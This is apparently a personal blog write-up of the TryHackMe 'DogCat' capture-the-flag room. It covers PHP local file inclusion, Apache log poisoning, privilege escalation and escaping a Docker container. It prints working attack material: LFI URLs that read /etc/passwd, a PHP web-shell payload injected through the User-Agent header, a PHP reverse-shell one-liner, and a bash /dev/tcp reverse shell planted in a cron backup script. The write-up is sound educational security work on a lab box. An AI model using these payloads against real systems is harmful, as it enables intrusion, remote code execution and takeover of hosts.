 ```yaml
---
title: "[EN] - TryHackMe : DogCat writeup "
date: 2020-04-19T11:00:00+02:00
draft: false
tags: ["CTF", "THM", "TryHackMe", "DogCat", "Writeup"]
---
```


Hey, everybody,  
Here is my first writeup post about a CTF, and for the moment, I propose you my solution of the [Dogcat](https://tryhackme.com/room/dogcat) challenge on the TryHackMe website.

The goal of this machine is to get 4 flags, by reading the description of the machine and the twitter post of the box, we may already know that we will have to use a LFI and escape a docker container.

## Recon

When we launch the machine we can directly access it via a web browser, to make sure we are on the right page to operate, we can launch an nmap scan.

```bash
root@kali:~# nmap -sT -T5 -A 10.10.214.114
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-19 09:09 UTC
Nmap scan report for ip-10-10-214-114.eu-west-1.compute.internal (10.10.214.114)
Host is up (0.00052s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
MAC Address: 02:42:89:24:24:BC (Unknown)
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.10 - 3.13 (94%), Linux 3.8 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms ip-10-10-214-114.eu-west-1.compute.internal (10.10.214.114)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.44 seconds
```

Only the port `80`  is open with an `Apache 2.4.38` web server, when you go to the web page, you can see a web page which offers to see a picture of dogs or cats.

The first interesting information that we can retrieve is the parameter, which actually suggests that a LFI is possible, and the version of `PHP` which is in `7.4.3`, an interesting information because with this version it is not possible to exploit a LFI with a null byte (`%00`) or a *path truncation*.

![](/images/2020/ctf/THM_Dogcat_Recon1.png)

The first trivial test is directly to try to load the file `/etc/passwd` :  
`http://10.10.214.114/?view=../../../../../../etc/passwd`

![](/images/2020/ctf/THM_Dogcat_Recon2.png)

But the site forces the user to use the keyword `dog` or `cat`, let's try again:

![](/images/2020/ctf/THM_Dogcat_Recon3.png)

## Exploiting LFI & First flag

Hum interesting, the error message shows that a LFI seems possible, however impossible to load the `/etc/passwd` file because the `.php` extension is automatically added, to get around that we could have used the null byte `%00` character or a path truncation but as I said, it's not possible with this version of PHP, fetching the `index.php` file to start with and see if it's possible to get additional information.

But if you try to directly load the `index.php` file via the URL `http://10.10.214.114/?view=dog../../index` you will get an error :

![](/images/2020/ctf/THM_Dogcat_Exploit1.png)

This is because the site is trying to include the `index.php` page a second time, the trick here is to use the php wrapper `php://filter` and convert the content to base64. Once recovered it is enough to decode it online or directly in your console :

![](/images/2020/ctf/THM_Dogcat_Exploit2.png)

Ok it's possible to retrieve the content of a `php` file, with a bit of guessing we can retrieve the first flag by reaching the page `flag.php` and decoding the retrieved content as for the page `index.php` via the page `http://10.10.214.114/?view=php://filter/convert.base64-encode/resource=dog../../flag`.

![](/images/2020/ctf/THM_Dogcat_Flag1.png)

## Gaining shell & flag 2

By looking for a little other file we don't find much interesting, let's resume our file `index.php`, we can see this interesting little piece of code:

![](/images/2020/ctf/THM_Dogcat_Recon4.png)

For those who are not comfortable with PHP, we can translate this as :
The `ext` parameter will be equal to the `ext` GET parameter, otherwise we'll use `.php`.
And if the GET parameter `view` contains the value `dog` or `cat` we'll look for the page that will contain the value of the GET parameter `view` and `ext` (so either the value provided in the URL or `.php` if no value is provided)

Interesting... Let's try again to load the contents of /etc/passwd by including the GET parameter `ext` and leaving it empty:

`http://10.10.214.114/?view=php://filter/resource=dog../../../../../../etc/passwd&ext=`

Ok good, we got it :

![](/images/2020/ctf/THM_Dogcat_Recon5.png)

We realize that it doesn't contain much interesting stuff, I was hoping to find a specific user in it but that's not the case, so we'll certainly have to get a shell as `wwww-data` and find a way to become `root`.

In our case, if we look for the techniques to obtain a shell with a LFI have fallen on several techniques, for those that seems exploitable in our case I retained :
* RCE via Apache log poisonning
* RCE via `/proc/self/environ`

In our case, it is not possible to load the `/proc/self/environ` file, which begins to confirm the fact that we are partitioned in a docker container.
Let's look at the first case, to succeed we need 2 things:
* Be able to access the apache log file, which is accessible via the url `http://10.10.214.114/?view=php://filter/resource=dog../../../../../../var/log/apache2/access.log&ext=`
* Inject content into it: Can be done by changing our user-agent.

*note: I found the file `/var/log/apache2/access.log` by testing the default paths where the Apache log file can be found.*

Hop, we launch burp, reload the page and intercept the request to include the payload `<?php system($_GET['cmd']);?>` in the user-agent, this will have the effect that each time we load the file `/var/log/apache2/access. log` with the GET parameter `cmd` of our command will be interpreted since the code snippet `<?php system($_GET['cmd']);?>` will be interpreted in the page since it is PHP ...

So like I said, we inject our payload:
![](/images/2020/ctf/THM_Dogcat_Exploit3.png)

Then we can use it by loading the file `/var/log/apache2/access.log` and using the GET parameter `cmd` with the value of the command we want to use :
![](/images/2020/ctf/THM_Dogcat_Exploit4.png)

To be a little more comfortable, it is possible to obtain a shell, we know that PHP is used on the machine so we will directly use a php payload to obtain a reverse-shell via the command `php -r '$sock=fsockopen("{IP_KALI}"",1234);exec("/bin/sh -i <&3 >&3 2>&3");'` such as here (don't forget to listen on the defined port) :

![](/images/2020/ctf/THM_Dogcat_Exploit5.png)

And then we get our first access on the server and we can retrieve the second flag:
![](/images/2020/ctf/THM_Dogcat_Flag2.png)

## PrivEsc & flag 3

For this task I didn't have to look for a long time, a little `sudo -l` allows me to see that a command is executable as root:
![](/images/2020/ctf/THM_Dogcat_Exploit6.png)

A simple search on [https://gtfobins.github.io/](https://gtfobins.github.io/) shows that it is possible to raise your privileges with the command `sudo env /bin/bash`, once root you get the third flag:

![](/images/2020/ctf/THM_Dogcat_Flag3.png)

## Container escape & flag 4

Ok more than the last flag, in order to validate that we are in a docker container we can use the command `hostname` which indicates a weird name that indicates a container name, we can also see the `dockerenv` file at the root, other methods allow us to confirm that we are in a container such as checking cgroups, ...

After searching quite a lot, including the different possible exploits I realized that it was a bad technique, because a lot of commands are not usable on the server (such as basic commands like `wget` etc...) which left me thinking that this was not the right track.

So I manually enumerated the machine, looking for elements that could help me escape the container such as a script via the `find / -type f -name *.sh` command, the first result is the file `/opt/backups/backup.sh`, hum interesting, looking at its contents :

![](/images/2020/ctf/THM_Dogcat_Recon6.png)

Interesting, I don't know much about docker but from what I understand, it's the root user of the host machine that makes a backup, I may be wrong but I understand that there is a `/root/backup` mount point on the host machine to the container.

As it is a backup script, we can imagine that it is executed periodically, so we can modify its contents to try to get a shell on the host machine.

So we will have to modify the `backup.sh` file with the following content :
```bash
#!/bin/bash
bash -i >& /dev/tcp/{KALI IP}/8080 0>&1
```

And tap into our Kali machine.

![](/images/2020/ctf/THM_Dogcat_Exploit7.png)

Here we go, root on the host machine, we just need to retrieve the last flag:
![](/images/2020/ctf/THM_Dogcat_Flag4.png)